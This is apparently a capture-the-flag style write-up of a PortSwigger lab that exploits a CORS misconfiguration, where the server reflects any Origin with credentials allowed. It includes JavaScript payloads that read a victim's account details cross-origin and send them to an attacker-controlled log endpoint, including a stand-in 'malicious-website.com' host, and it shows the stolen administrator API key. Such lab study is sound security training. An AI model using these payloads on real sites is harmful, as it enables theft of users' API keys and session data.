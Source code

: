 ## Lab Description :

## Overview :

#### Server-generated ACAO header from client-specified Origin header

Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.

One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:

```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

It then responds with:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

These headers state that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.

Because the application reflects arbitrary origins in the `Access-Control-Allow-Origin` header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an **API key** or **CSRF token**, you could retrieve this by placing the following script on your website:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```

## Solution :

### Analysis -

First let's login as wiener using the credentials given - `wiener:peter`


Once logged in , we can see that there is an email update functionality & the **API key of wiener.**

In the HTTP history tab, we can see that the `GET` request to `/accountDetails` contains the **ACAC=true** header in its response.


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1a0532c0-a3a3-453b-8eee-94f4694af8b8)

**This meaans that if we can able to exploit CORS here then we can able to  get the session cookie, API key etc of the user.**

Note that there is no `Origin` header in the request that's why we don't see any `Access-Control-Allow-Origin` header too.

### Explloiting CORS misconfiguration -

If we try to provide `Origin: evil.com` , we can see that there is `Access-Control-Allow-Origin: evil.com` & `Access-Control-Allow-Credentials: true` in the response.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/11dfe623-7b07-485c-9aab-3623aefe6b3d)


This means the server takes the Origin provided in the request and sends it back in the response with the header `Access-Control-Allow-Origin: true`.

Go to exploit server and paste the following code.

> NOTE - Uri to provide is `/accountDetails`

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0aca000b03408aa480b9856d00e600f5.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='/log?key='+this.responseText;
};
</script>
```

Deliver exploit to Victim & View Access-log, there we can find the API key of administrator.

```json
/log?key={  "username": "administrator",  "email": "",  "apikey": "FTTGVC2HkWwpvvUW54D6cMl9hup8oypH"
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d3425134-996c-481b-bd8a-ba8d23d09c92)


Finally we've solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2c8adb12-7766-4883-9c84-fadd6030b615)






















